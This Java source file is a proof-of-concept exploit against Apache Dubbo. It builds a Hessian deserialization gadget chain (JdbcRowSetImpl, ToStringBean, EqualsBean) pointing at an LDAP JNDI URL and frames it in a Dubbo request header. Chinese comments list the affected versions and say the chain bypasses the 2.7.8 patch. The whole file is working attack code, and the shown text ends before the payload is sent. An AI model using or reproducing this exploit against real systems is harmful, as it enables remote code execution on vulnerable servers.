 ```java
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Random;

//Apache Dubbo 2.7.0 ~ 2.7.6
//Apache Dubbo 2.6.0 ~ 2.6.7
//Apache Dubbo 2.5.x 所有版本 (官方不再提供支持)。
//在实际测试中2.7.8补丁绕过可以打，而2.7.9失败

public class diyTestHessian {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:8085/GQOsPFQU");
        rs.setMatchColumn("foo");
        Reflections.setFieldValue(rs, "listeners",null);
        JdbcRowSetImpl rs1 = new JdbcRowSetImpl();

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs1);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        s.put(root,root);
        Field field = ToStringBean.class.getDeclaredField("obj");
        field.setAccessible(true);
        field.set(item,rs);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(hessian2ByteArrayOutputStream);
        HessianBase.NoWriteReplaceSerializerFactory sf = new HessianBase.NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);

        out.writeObject(s);

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

```